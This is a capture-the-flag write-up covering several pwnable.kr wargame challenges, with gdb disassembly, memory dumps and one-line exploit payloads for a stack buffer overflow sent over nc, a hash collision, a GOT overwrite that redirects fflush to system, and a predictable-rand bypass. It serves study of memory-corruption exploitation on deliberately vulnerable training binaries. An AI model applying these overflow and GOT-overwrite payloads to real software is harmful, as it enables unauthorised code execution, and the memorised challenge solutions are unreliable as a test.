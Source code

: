 # CTF

## PWNABLE.KR

### fd
- check setuid bit set
- It can read root file.
```sh
fd@pwnable:~$ id
uid=1002(fd) gid=1002(fd) groups=1002(fd)

fd@pwnable:~$ ls -al
-r--r----- 1 fd_pwn root 50 Jun 11  2014 flag
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
```

- check src/fd.c
- If ```fd``` is 0/1/2, STDIN/STDOUT,STDERR
- read flag
```sh
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

### collision
- check src/col.c
```sh
col@pwnable:~$ ls
col  col.c  flag
```
- According to hashcode and check_password(), make password
    - 0x21DD09EC / 5 = 0x6C5CEC8
    - 0x6C5CEC8 * 5 = 0x21DD09E8(diff 0x4)
    - result : 0x6C5CEC8 * 4 + 0x6C5CECC
- It is little endian.

- read flag
```sh
col@pwnable:~$ ./col `python -c 'print "\xC8\xCE\xC5\x06"*4+"\xCC\xCE\xC5\x06"'`
daddy! I just managed to create a hash collision :)
```

### bof
- check src/bof.c
- gdb bof
    - overflow varible : 0xffffcfdc
    - deadbeef varible : 0xffffd010
```sh
gef➤  x/40x 0xffffcfdc
0xffffcfdc:     0x00333231      0xf7fc4540      0x00000000      0xf7d994be
0xffffcfec:     0xf7fab054      0xf7fbe4a0      0xf7fd6f90      0xf7d994be
0xffffcffc:     0xc5ac9500      0xffffd040      0xf7fbe66c      0xffffd028
0xffffd00c:     0x5655569f      0xdeadbeef
```

- payload A * 52 + 0xcafebabe
```sh
(python3 -c 'print("A" * 52 + "\xbe\xba\xfe\xca")';cat) | nc pwnable.kr 9000
```

### flag

#### packer
- difficult to analyse by compressing or encrypting file. 
- find ```UPX```
```sh
coho@DESKTOP-LHPOMJF:~/src/study/CTF/src$ hexdump -C flag.out | head -n 20
00000000  7f 45 4c 46 02 01 01 03  00 00 00 00 00 00 00 00  |.ELF............|
00000010  02 00 3e 00 01 00 00 00  f0 a4 44 00 00 00 00 00  |..>.......D.....|
00000020  40 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |@...............|
00000030  00 00 00 00 40 00 38 00  02 00 40 00 00 00 00 00  |....@.8...@.....|
00000040  01 00 00 00 05 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 40 00 00 00 00 00  00 00 40 00 00 00 00 00  |..@.......@.....|
00000060  04 ad 04 00 00 00 00 00  04 ad 04 00 00 00 00 00  |................|
00000070  00 00 20 00 00 00 00 00  01 00 00 00 06 00 00 00  |.. .............|
00000080  d8 62 0c 00 00 00 00 00  d8 62 6c 00 00 00 00 00  |.b.......bl.....|
00000090  d8 62 6c 00 00 00 00 00  00 00 00 00 00 00 00 00  |.bl.............|
000000a0  00 00 00 00 00 00 00 00  00 00 20 00 00 00 00 00  |.......... .....|
000000b0  fc ac e0 a1 55 50 58 21  1c 08 0d 16 00 00 00 00  |....UPX!........|
```

- install upx packer
```sh
sudo apt-get install upx
```

- unpack binary
```sh
upx -d flag.out
```

- main
    - puts "I will malloc() and strcpy the flag there. take it."
    - rdi : malloc 0x64
    - rsi : "UPX...? sounds like a delivery service :)"
    - strcpy : call 0x400320
```sh
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401164 <+0>:     push   rbp
   0x0000000000401165 <+1>:     mov    rbp,rsp
   0x0000000000401168 <+4>:     sub    rsp,0x10
   0x000000000040116c <+8>:     mov    edi,0x496658
   0x0000000000401171 <+13>:    call   0x402080 <puts>
   0x0000000000401176 <+18>:    mov    edi,0x64
   0x000000000040117b <+23>:    call   0x4099d0 <malloc>
   0x0000000000401180 <+28>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401184 <+32>:    mov    rdx,QWORD PTR [rip+0x2c0ee5]        # 0x6c2070 <flag>
   0x000000000040118b <+39>:    mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040118f <+43>:    mov    rsi,rdx
   0x0000000000401192 <+46>:    mov    rdi,rax
   0x0000000000401195 <+49>:    call   0x400320
   0x000000000040119a <+54>:    mov    eax,0x0
   0x000000000040119f <+59>:    leave  
   0x00000000004011a0 <+60>:    ret    

gef➤  x $rdx
0x496628:       "UPX...? sounds like a delivery service :)"
```

### passcode
- check src/passcode.c
- If name[100] is full, passcode1 is name[96~100] (duplicated)
```sh
gef➤  disas welcome
Dump of assembler code for function welcome:
    0x00005555555552e2 <+8>:     sub    rsp,0x70 # name[100]

gef➤  disas login
Dump of assembler code for function login:
    0x0000555555555229 <+32>:    mov    eax,DWORD PTR [rbp-0x8] # passcode1
    0x0000555555555265 <+92>:    mov    eax,DWORD PTR [rbp-0x4] # passcode2
```

- passcode1 can be set by PLT's GOT using name[96~100]
```c
scanf("%d", passcode1);
```

- check fflush and system
    - PLT : 0x8048430 (call)
    - GOT : 0x804a004 (jmp)
    - system("bin/cat flag") : 0x8048430 (134514147)
```sh
(gdb) disas login
Dump of assembler code for function login:
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>  # fflush PLT
   0x080485ea <+134>:   call   0x8048460 <system@plt>

(gdb) x/i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004 # fflush GOT
```

- write user code to PLT GOT
    - payload : [dummy] + [fflush GOT] + [want to execute memory]
        - [A * 96] + [0x804a004] + [134514147]
```sh
(python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147"') | ./passcode 
```

### random
- check src/random.c

```sh
gef➤  disas main
Dump of assembler code for function main:
   0x00000000000011e2 <+25>:    xor    eax,eax
   0x00000000000011e4 <+27>:    mov    eax,0x0
   0x00000000000011e9 <+32>:    call   0x10d0 <rand@plt>
   0x00000000000011ee <+37>:    mov    DWORD PTR [rbp-0xc],eax

gef➤  x $eax
0x6b8b4567:     Cannot access memory at address 0x6b8b4567
```

- $eax is same(0x6b8b4567) beacuse seed is same.
```sh
(python -c 'print 0x6b8b4567 ^ 0xdeadbeef') | ./random
```
### input
- check src/input.c
1. argc is 100
2. argv["A"] is \x00
3. argv["B"] is \x20\x0a\x0d
4. write \x00\x0a\x02\xff as STDIN
5. write \x00\x0a\x02\xff as STDERR
6. \xde\xad\xbe\xef env is \xca\xfe\xba\xbe
7. read \x00\x00\x00\x00 in file named \x0a
8. read \xde\xad\xbe\xef in socket argv["C"] port

# leg
- check src/leg.c, leg.asm